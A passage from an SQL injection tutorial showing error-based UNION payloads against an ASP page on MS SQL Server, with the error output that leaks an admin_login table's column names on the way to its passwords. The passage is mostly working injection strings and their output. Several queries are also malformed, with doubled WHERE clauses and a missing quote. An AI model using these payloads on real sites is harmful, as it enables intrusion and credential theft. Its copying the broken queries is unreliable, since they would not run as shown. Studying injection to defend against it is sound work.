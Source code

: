 ```
Microsoft OLE DB Provider for ODBC Drivers error '80040e07' 

[Microsoft][ODBC SQL Server Driver][SQL Server]Syntax error converting the nvarchar value 'admin_login' to a column of data type int. 

/index.asp, line 5
```
The matching patent, `'%25login%25'` will be seen as %login% in SQL Server. In this case, we will get the first table name that matches the criteria, `"admin_login"`.

#### 7. How to mine all column names of a table by SQL Injection?
We can use another useful table INFORMATION_SCHEMA.COLUMNS to map out all columns name of a table: 
```sql
http://duck/index.asp?id=10 UNION SELECT TOP 1 COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='admin_login'--
```
Output:
```
Microsoft OLE DB Provider for ODBC Drivers error '80040e07' 

[Microsoft][ODBC SQL Server Driver][SQL Server]Syntax error 
converting the nvarchar value 'login_id' to a column of data 
type int. 
/index.asp, line 5
```
Now that we have the first column name, we can use NOT IN () to get the next column name: 
```sql
http://duck/index.asp?id=10 UNION SELECT TOP 1 COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='admin_login' WHERE COLUMN_NAME NOT IN ('login_id')--
```
Output: 
```
Microsoft OLE DB Provider for ODBC Drivers error '80040e07' 

[Microsoft][ODBC SQL Server Driver][SQL Server]Syntax error converting the nvarchar value 'login_name' to a column of data type int. 
/index.asp, line 5
```
When we continue further, we obtained the rest of the column name, i.e. "password", "details". We know this when we get the following error message: 
```sql
http://duck/index.asp?id=10 UNION SELECT TOP 1 COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='admin_login' WHERE COLUMN_NAME NOT IN ('login_id','login_name','password',details')--
```
Output: 
```
Microsoft OLE DB Provider for ODBC Drivers error '80040e14'

[Microsoft][ODBC SQL Server Driver][SQL Server]ORDER BY items must appear in the select list if the statement contains a UNION operator. 

/index.asp, line 5
```
